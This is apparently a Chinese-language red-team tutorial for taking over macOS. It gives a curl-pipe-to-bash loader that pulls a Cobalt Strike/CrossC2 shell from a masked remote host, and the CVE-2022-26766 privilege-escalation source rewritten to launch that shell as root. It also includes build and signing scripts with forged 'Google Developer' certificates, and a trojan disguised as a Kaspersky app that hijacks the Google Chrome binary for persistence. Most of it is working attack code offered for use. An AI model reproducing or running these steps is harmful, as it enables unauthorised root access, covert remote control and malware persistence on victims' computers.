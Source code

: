 # MacOS Rooted 权限上线权限维持




## 1. MacOS shell

### 1.1 CrossC2 制作一个 curl script

<img src="/Users/reborn/Library/Application Support/typora-user-images/image-20220707140536240.png" alt="image-20220707140536240" style="zoom:50%;" />

上线命令如下：

```bash
curl -A O -o- -L http://120.xx.xx.xxx:123456/a | bash -s
```



## 2. MacOS Rootd

### 2.1 漏洞利用：CVE-2022-26766 权限提升

Security Update 2022-004 Catalina, watchOS 8.6, macOS Big Sur 11.6.6, macOS Monterey 12.4

漏洞利用 Demo

https://github.com/zhuowei/CoreTrustDemo

源码：

https://github.com/zhuowei/CoreTrustDemo/blob/main/spawn_root.m

```objective-c
@import Darwin;
extern char** environ;

#define POSIX_SPAWN_PERSONA_FLAGS_OVERRIDE 1
int posix_spawnattr_set_persona_np(const posix_spawnattr_t* __restrict, uid_t, uint32_t);
int posix_spawnattr_set_persona_uid_np(const posix_spawnattr_t* __restrict, uid_t);
int posix_spawnattr_set_persona_gid_np(const posix_spawnattr_t* __restrict, uid_t);

int main(int argc, char** argv) {
  if (argc < 2) {
    fprintf(stderr, "usage: spawn_root <command> <to> <run>\n");
    return 1;
  }
  posix_spawnattr_t attr;
  posix_spawnattr_init(&attr);
  posix_spawnattr_set_persona_np(&attr, /*persona_id=*/99, POSIX_SPAWN_PERSONA_FLAGS_OVERRIDE);
  posix_spawnattr_set_persona_uid_np(&attr, 0);
  posix_spawnattr_set_persona_gid_np(&attr, 0);

  int pid = 0;
  int ret = posix_spawnp(&pid, argv[1], NULL, &attr, &argv[1], environ);
  if (ret) {
    fprintf(stderr, "failed to exec %s: %s\n", argv[1], strerror(errno));
    return 1;
  }
  waitpid(pid, nil, 0);
  return 0;
}
```

源码使用了`posix_spawnp` 函数，通过这个函数可以创建一个进程，从而执行任意命令。

官方说明：

https://developer.apple.com/library/archive/documentation/System/Conceptual/ManPages_iPhoneOS/man2/posix_spawnp.2.html

重要的是第二个参数和第五个参数。

该函数的第二个参数为命令文件或者命令路径。

该函数的第五个参数，是一个指向以空结尾的字符指针数组的**指针**，该数组指向以空结尾的字符串。

修改成反弹 CS Shell 后的源码

```objective-c
@import Darwin;
extern char** environ;

#define POSIX_SPAWN_PERSONA_FLAGS_OVERRIDE 1
int posix_spawnattr_set_persona_np(const posix_spawnattr_t* __restrict, uid_t, uint32_t);
int posix_spawnattr_set_persona_uid_np(const posix_spawnattr_t* __restrict, uid_t);
int posix_spawnattr_set_persona_gid_np(const posix_spawnattr_t* __restrict, uid_t);

int main(int argc) {
  posix_spawnattr_t attr;
  posix_spawnattr_init(&attr);
  posix_spawnattr_set_persona_np(&attr, /*persona_id=*/99, POSIX_SPAWN_PERSONA_FLAGS_OVERRIDE);
  posix_spawnattr_set_persona_uid_np(&attr, 0);
  posix_spawnattr_set_persona_gid_np(&attr, 0);

  char *argv[]={
    "sh",
    "-c",
    "curl -A O -o- -L http://120.xx.xx.xxx:123456/a | bash -s",
    NULL
  };

  int pid = 0;
  int ret = posix_spawnp(&pid, argv[0], NULL, &attr, &argv[0], environ);
  if (ret) {
    return 1;
  }
  waitpid(pid, nil, 0);
  return 0;
}
```

### 2.2 编译提权源码脚本

https://github.com/zhuowei/CoreTrustDemo/blob/main/build_spawn_root.sh

```bash
#!/bin/sh
set -e
clang -o spawn_root_x86 -target x86_64-apple-macos12 -Os -fmodules spawn_root.m
clang -o spawn_root_arm64 -target arm64-apple-macos12 -Os -fmodules spawn_root.m
lipo -create -output spawn_root spawn_root_x86 spawn_root_arm64
codesign -s "Worth Doing Badly Developer ID" -f --entitlements spawn_root.entitlements spawn_root
```

`clang`  命令使用`clang`编译器编译 spawn_root.m 源码文件

`lipo` 命令用来合并静态库

```bash
# lipo -create 静态库存放路径1  静态库存放路径2 ...  -output 整合后存放的路径
```

`entitlements` 文件全称为 code signing entitlements，entitlements 后缀的文件作用是为App授予特定的能力以及一些安全方面的权限，是一个plist 文件。

`codesign` 命令用来签名，`-s` 参数的内容为根据制作好的`p12`证书文件的内容来进行安装，`-f` 跟上 entitlements 文件。

### 2.3 制作 p12 证书

可以使用直接制作好的`p12` 证书

https://github.com/zhuowei/CoreTrustDemo/blob/main/badcert/dev_certificate.p12

双击安装即可。

自行生成一个`p12` 可以使用如下生成脚本

https://github.com/zhuowei/CoreTrustDemo/blob/main/badcert/makecerts.sh

```bash
set -e
export PATH="/usr/local/opt/openssl/bin:$PATH"
	#-addext "1.2.840.113635.100.6.2.6=DER:0500" \

true && openssl req -newkey rsa:2048 -nodes -keyout root_key.pem -x509 -days 3650 -out root_certificate.pem \
	-subj "/C=CA/O=Google Developer/OU=Google Developer Certification Authority/CN=Google Developer Root CA" \
	-addext "1.2.840.113635.100.6.22=DER:0500" \
	-addext "basicConstraints=critical, CA:true" -addext "keyUsage=critical, digitalSignature, keyCertSign, cRLSign"
true && openssl req -newkey rsa:2048 -nodes -keyout codeca_key.pem -out codeca_certificate.csr \
	-subj "/C=CA/O=Google Developer/OU=Google Developer Certification Authority/CN=Google Developer ID 1337 Certification Authority" \
	-addext "1.2.840.113635.100.6.22=DER:0500" \
	-addext "basicConstraints=critical, CA:true" -addext "keyUsage=critical, keyCertSign, cRLSign"
true && openssl x509 -req -CAkey root_key.pem -CA root_certificate.pem -days 3650 \
	-in codeca_certificate.csr -out codeca_certificate.pem -CAcreateserial -copy_extensions copyall
true && openssl req -newkey rsa:2048 -nodes -keyout dev_key.pem -out dev_certificate.csr \
	-subj "/C=CA/O=Google Developer/OU=Google Developer Certification Authority/CN=Google Developer ID 1337" \
	-addext "basicConstraints=critical, CA:false" \
	-addext "keyUsage = critical, digitalSignature" -addext "extendedKeyUsage = codeSigning" \
	-addext "1.2.840.113635.100.6.22=DER:0500"
true && openssl x509 -req -CAkey codeca_key.pem -CA codeca_certificate.pem -days 3650 \
	-in dev_certificate.csr -out dev_certificate.pem -CAcreateserial -copy_extensions copyall
true && cat codeca_certificate.pem root_certificate.pem >certificate_chain.pem
true && /usr/bin/openssl pkcs12 -export -in dev_certificate.pem -inkey dev_key.pem -certfile certificate_chain.pem \
	 -passout pass:password \
	-out dev_certificate.p12 -name "Google Developer ID 1337"
```

由于 MacOS 自带的 `openssl` 版本较低，所以需要更新到 OpenSSL 3.0.3 以上。

相关命令

```bash
$ brew update
$ brew install openssl
$ brew link --force openssl
echo 'export PATH="/usr/local/opt/openssl@3/bin:$PATH"' >> ~/.zshrc
export LDFLAGS="-L/usr/local/opt/openssl@3/lib" >> ~/.zshrc
export CPPFLAGS="-I/usr/local/opt/openssl@3/include" >> ~/.zshrc
export PKG_CONFIG_PATH="/usr/local/opt/openssl@3/lib/pkgconfig" >> ~/.zshrc
$ source ~/.zshrc
$ openssl version -a
```

安装`p12` 需要密码在此指定，此处密码为 `password`

```bash
true && /usr/bin/openssl pkcs12 -export -in dev_certificate.pem -inkey dev_key.pem -certfile certificate_chain.pem \
	 -passout pass:password \
```

证书名称在此指定

```bash
-out dev_certificate.p12 -name "Google Developer ID 1337"
```

证书安装完成即可编译提权源代码。

## 3. MacOS 权限维持

### 3.1 通过复制替换常用应用进行权限维持

木马目录结构

```bash
$ tree kaspersky-mac.app
kaspersky-mac.app
└── Contents
    └── MacOS
        ├── kaspersky-mac
        └── main

2 directories, 2 files
```

main 为木马，kaspersky-mac sh脚本内容

```bash
#!/bin/bash
"`dirname "$0"`"/main &
mv  "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" "/Applications/Google Chrome.app/Contents/MacOS/Google  Chrome"
cp "`dirname $0`"/main '/Applications/Google Chrome.app/Contents/MacOS/Google Chrome ltd'
touch '/Applications/Google Chrome.app/Contents/MacOS/Google Chrome'
sa="#!/bin/bash"
sb="\"\`dirname \"\$0\"\`\"/Google\ Chrome\ ltd &"
sc="\"\`dirname \"\$0\"\`\"/Google\ \ Chrome &"
echo $sa >> "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome"
echo $sb >> "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome"
echo $sc >> "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome"
```



### 3.2 Rooted 权限下的权限维持

